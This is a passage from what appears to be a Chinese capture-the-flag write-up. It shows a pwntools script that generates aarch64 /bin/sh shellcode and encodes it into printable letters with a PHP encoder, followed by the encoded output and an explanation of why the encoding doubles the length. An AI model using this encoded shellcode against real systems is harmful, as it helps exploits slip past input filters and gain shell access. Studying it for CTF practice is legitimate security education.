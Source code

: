 ## 生成

首先使用论文里给的php编码器，一点不用改，直接生成编码的shellcode：

```python
from pwn import *
import os
context(arch='aarch64',os='linux')

gen = b'''
<?php
function mkchr($c){
    return(chr(0x40+$c));
}
$s=file_get_contents('shellcode.bin.tmp');
$p=file_get_contents('payload.bin');
$b=0x60;
for($i=0;$i<strlen($p);$i++)
{
    $q=ord($p[$i]);
    $s[$b+2*$i]=mkchr(($q>>4)&0xF);
    $s[$b+2*$i+1]=mkchr($q&0xF);
}
$s=str_replace('@','P',$s);
file_put_contents('shellcode.bin',$s);
?>
'''

f = open("gen.php",'wb')
f.write(gen)
f.close()

f = open("payload.bin",'wb')
f.write(asm(shellcraft.sh()))
f.close()

os.system("touch shellcode.bin.tmp")
os.system("php gen.php")
os.system("cat shellcode.bin")
```

结果前面有一堆空格，后来发现，上面这段php其中的`$b=0x60`就是拆分大小，也是空格的成因...

```python
➜  python3 exp.py
NNDEHLMBBNLMJMOBNNNELEOBNNFENNOBPOPMHPMBNNCOKOJINPPCPPIANAPCAOJJNBPCAOJJJHAKHPMBPAPPPPMD
```

赛后皓哥教我，此法能把shellcode变成纯字符的本质道理是把shellcode的一个字节拆成两个字节，如同 hex string：

```python
>>> from pwn import *
>>> context(arch='aarch64',os='linux')
>>> len(asm(shellcraft.sh()))
44
>>> len('NNDEHLMBBNLMJMOBNNNELEOBNNFENNOBPOPMHPMBNNCOKOJINPPCPPIANAPCAOJJNBPCAOJJJHAKHPMBPAPPPPMD')
88
```
